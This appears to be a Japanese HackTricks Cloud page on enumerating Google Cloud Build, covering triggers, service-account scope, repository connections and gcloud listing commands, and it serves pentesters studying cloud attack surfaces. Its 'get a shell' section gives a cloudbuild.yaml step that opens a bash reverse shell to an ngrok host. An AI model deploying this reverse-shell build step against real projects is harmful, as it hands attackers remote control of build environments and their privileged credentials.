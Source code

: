 # GCP - Cloud Build Enum

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong>を通じて、ゼロからヒーローまでAWSハッキングを学びましょう！</summary>

HackTricksをサポートする他の方法：

- **HackTricksで企業を宣伝**したい場合や**HackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
- [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手してください
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをご覧ください
- **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[Telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)を**フォロー**してください。
- **ハッキングテクニックを共有するには、[HackTricks](https://github.com/carlospolop/hacktricks)と[HackTricks Cloud](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>

## 基本情報

Google Cloud Buildは、**ソースコードリポジトリと統合**し、**幅広いプログラミング言語をサポート**する、**ソフトウェアビルドとリリースプロセスを自動化**する管理されたCI/CDプラットフォームです。**開発者がコードを自動的にビルド、テスト、展開**できるようにし、ビルドステップやワークフローをカスタマイズする柔軟性を提供します。

各Cloud Buildトリガーは、**Cloudリポジトリに関連付けられているか、外部リポジトリ（Github、Bitbucket、Gitlab）と直接接続されています**。

{% hint style="success" %}
ここからまたはCloudリポジトリからGithub/Bitbucketトークンを盗む方法は見当たりませんでした。リポジトリがダウンロードされると、[https://source.cloud.google.com/](https://source.cloud.google.com/)のURLを介してアクセスされ、Githubはクライアントによってアクセスされません。
{% endhint %}

### イベント

Cloud Buildは、次の場合にトリガーされます：

- **ブランチにプッシュ**：ブランチを指定
- **新しいタグをプッシュ**：タグを指定
- **プルリクエスト**：PRを受け取るブランチを指定
- **手動呼び出し**
- **Pub/Subメッセージ**：トピックを指定
- **Webhookイベント**：HTTPS URLを公開し、リクエストは秘密で認証される必要があります

### 実行

3つのオプションがあります：

- 実行するコマンドを指定するyaml/json。通常は：`/cloudbuild.yaml`
- WebコンソールとCLIで「インライン」で指定できる唯一の方法
- 最も一般的なオプション
- 認証されていないアクセスに関連する
- ビルドするための**Dockerfile**
- ビルドするための**Buildpack**

### SA権限

**サービスアカウントには`cloud-platform`スコープがあり**、**すべての権限を使用できます。**（`submit`を行うときのように）**SAが指定されていない場合**、**デフォルトのSA** `<proj-number>@cloudbuild.gserviceaccount.com` が**使用されます。**

デフォルトでは権限が与えられていませんが、簡単に権限を与えることができます：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 承認

Cloud Buildを**ビルド実行に承認が必要**なように構成することが可能です（デフォルトでは無効）。

### 接続とリポジトリ

接続は以下で作成できます：

- **GitHub：** Githubトークンを取得するために**OAuthプロンプトが表示**され、**Secret Manager**に保存される
- **GitHub Enterprise：** **GithubApp**をインストールするように求められます。GitHub Enterpriseホストからの**認証トークン**が作成され、このプロジェクトに**Secret Manager**シークレットとして保存されます。
- **GitLab / Enterprise：** **APIアクセストークンとRead APIアクセストークン**を提供する必要があり、**Secret Manager**に保存されます。

接続が生成されると、Githubアカウントがアクセス権を持つリポジトリを**リンクするために使用**できます。

このオプションは、次のボタンを介して利用できます：

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
この方法で接続されたリポジトリは、**2世代を使用するトリガーでのみ利用可能**です。
{% endhint %}

### リポジトリの接続

これは**`connection`**とは異なります。これにより、**異なる**方法で**GithubまたはBitbucket**リポジトリに**アクセス**できますが、**接続オブジェクトは生成されません**。ただし、リポジトリオブジェクト（1世代）は生成されます。

このオプションは、次のボタンを介して利用できます：

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### ストレージ

時々、Cloud Buildは**トリガー用のファイルを保存するための新しいストレージを生成**します。これは、GCPが提供する例で発生します。
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
### シェルを取得

[security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox)というストレージバケットが作成され、使用するファイルが含まれた`.tgz`を保存するために使用されます。
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
### 列挙

**ビルド構成とログに機密情報が含まれている可能性があります**。
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### 特権昇格

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### 認証されていないアクセス

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### 攻撃後の処理

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）でAWSハッキングをゼロからヒーローまで学ぶ</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>!</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)で**フォロー**する
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)のGitHubリポジトリにPRを提出して、あなたのハッキングトリックを共有してください。

</details>
